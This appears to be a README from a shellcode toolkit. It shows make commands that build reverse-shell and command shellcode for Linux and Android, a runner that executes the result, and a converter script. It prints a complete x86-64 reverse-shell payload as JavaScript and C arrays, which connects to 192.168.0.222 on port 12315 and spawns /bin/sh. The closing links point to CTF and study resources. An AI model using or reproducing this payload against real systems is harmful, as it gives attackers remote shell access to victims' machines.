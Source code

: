 ## Make Shellcode

* build shellcode:

```shell
make shellcode T=linux.reverse64IPv4
or
make shellcode T=android.cmd32
```

* build elf for run shellcode:

```shell
make run T=linux
or
make run T=arm
```

* run shellcode:

```
./run ./shellcode
```

* shellcode to array:

```shell
╭─ 
╰─ python ./tools/s2a.py shellcode
var JavaScript_shellcode = new Uint8Array([
    0x6a, 0x02, 0x5f, 0x6a, 0x01, 0x5e, 0x6a, 0x00,
    0x5a, 0x6a, 0x29, 0x58, 0x0f, 0x05, 0x48, 0x97,
    0x6a, 0x00, 0x48, 0xb8, 0x02, 0x00, 0x30, 0x1b,
    0xc0, 0xa8, 0x00, 0xde, 0x50, 0x48, 0x89, 0xe6,
    0x6a, 0x10, 0x5a, 0x6a, 0x2a, 0x58, 0x0f, 0x05,
    0x6a, 0x02, 0x5e, 0x6a, 0x21, 0x58, 0x0f, 0x05,
    0x48, 0xff, 0xce, 0x79, 0xf6, 0x31, 0xc0, 0x50,
    0x48, 0xbf, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x2f,
    0x73, 0x68, 0x57, 0xb0, 0x3b, 0x48, 0x89, 0xe7,
    0x31, 0xf6, 0x31, 0xd2, 0x0f, 0x05,
])
char C_shellcode[] =
    "\x6a\x02\x5f\x6a\x01\x5e\x6a\x00"
    "\x5a\x6a\x29\x58\x0f\x05\x48\x97"
    "\x6a\x00\x48\xb8\x02\x00\x30\x1b"
    "\xc0\xa8\x00\xde\x50\x48\x89\xe6"
    "\x6a\x10\x5a\x6a\x2a\x58\x0f\x05"
    "\x6a\x02\x5e\x6a\x21\x58\x0f\x05"
    "\x48\xff\xce\x79\xf6\x31\xc0\x50"
    "\x48\xbf\x2f\x62\x69\x6e\x2f\x2f"
    "\x73\x68\x57\xb0\x3b\x48\x89\xe7"
    "\x31\xf6\x31\xd2\x0f\x05"

```

## refs

[shellcode for CTF style exploitation](https://github.com/osirislab/Shellcode)

[Shellcodes database for study cases](http://shell-storm.org/shellcode/)

[Linux System Call Table](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md)
